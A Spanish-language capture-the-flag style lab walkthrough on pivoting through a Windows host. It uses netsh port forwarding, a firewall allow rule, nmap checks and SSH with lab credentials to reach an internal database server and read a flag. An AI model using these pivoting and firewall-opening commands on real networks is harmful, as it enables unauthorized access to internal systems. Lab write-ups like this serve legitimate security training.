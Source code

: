 # Walk: Port Redirection and SSH Tunneling - Netsh - VM Group 1 
## Fecha: 26/03/2025 
## Host: MULTISERVER03 | PGDATABASE01
## IP: 192.168.xxx.64 | 10.4.xxx.215
## Objetivo
Start VM Group 1. As in the walkthrough, RDP into MULTISERVER03 and create a port forward with Netsh, in order to SSH into PGDATABASE01 from the Kali machine. Retrieve the flag on PGDATABASE01 at /tmp/netsh_flag.
## Herramientas
1. netsh
2. netstat

## Procedimiento y comandos
#### Paso 1: Configuracion tunel ssh con Netsh
1. Conexion rdp con credenciales *rdp_admin*
```
┌──(root㉿kali)-[/home/kali]
└─# xfreerdp /u:"rdp_admin" /p:"P@ssw0rd\!" /v:192.168.202.64 /dynamic-resolution +clipboard /cert:ignore
```
2. Configuracion del tunel ssh con netsh
```
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.xxx.64 connectport=22 connectaddress=10.4.xxx.215
```
3. Comprobamos la conexion
```
C:\Windows\system32>netstat -anp TCP | find "2222"
  TCP    192.168.xxx.64:2222    0.0.0.0:0              LISTENING

C:\Windows\system32>
```
>También podemos confirmar que el reenvío de puertos está almacenado emitiendo el comando show all en el subcontexto portproxy de la interfaz netsh.
```
C:\Windows\system32>netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.202.64  2222        10.4.202.215    22


C:\Windows\system32>
```
#### Paso 2: Procedemos con Port forwarding (pivoting)
1. Enumeramos desde nuestro kali:
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.xxx.64 -Pn -n -p 2222 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 16:18 -03
Nmap scan report for 192.168.xxx.64
Host is up.

PORT     STATE    SERVICE
2222/tcp filtered EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 2.16 seconds
```
> Notamos que el puerto esta filtrado muy probablemente por el firewall

2. Abrimos un agujero en el firewall desde *rdp_admin*
```
C:\Windows\system32> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.xxx.64 localport=2222 action=allow
Ok.

C:\Windows\system32>

```
3. Volvemos a enumerar desde kali
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.202.64 -Pn -n -p 2222 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 16:32 -03
Nmap scan report for 192.168.202.64
Host is up (0.27s latency).

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds

```
Ahora si vemos el puerto 2222 abierto y podemos conectarnos por ssh a *database_admin*

#### Paso 3: Nos conectamos por ssh y obtenemos el flag

1. Conexion por ssh con credenciales de _database_admin_

```
┌──(root㉿kali)-[/home/kali]
└─# ssh database_admin@192.168.xxx.64 -p2222
database_admin@192.168.xxx.64's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 26 Mar 2025 08:03:00 PM UTC

  System load:  0.0               Processes:               214
  Usage of /:   80.5% of 6.79GB   Users logged in:         0
  Memory usage: 13%               IPv4 address for ens192: 10.4.202.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.202.254


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 16 21:49:42 2023 from 10.4.50.63
database_admin@pgdatabase01:~$
```
2. Obtenemos el flag de /tmp/netsh_flag
```
database_admin@pgdatabase01:~$ pwd
/home/database_admin
database_admin@pgdatabase01:~$ cat /tmp/netsh_flag
OS{79878***************************fdd2d}
database_admin@pgdatabase01:~$ 
```
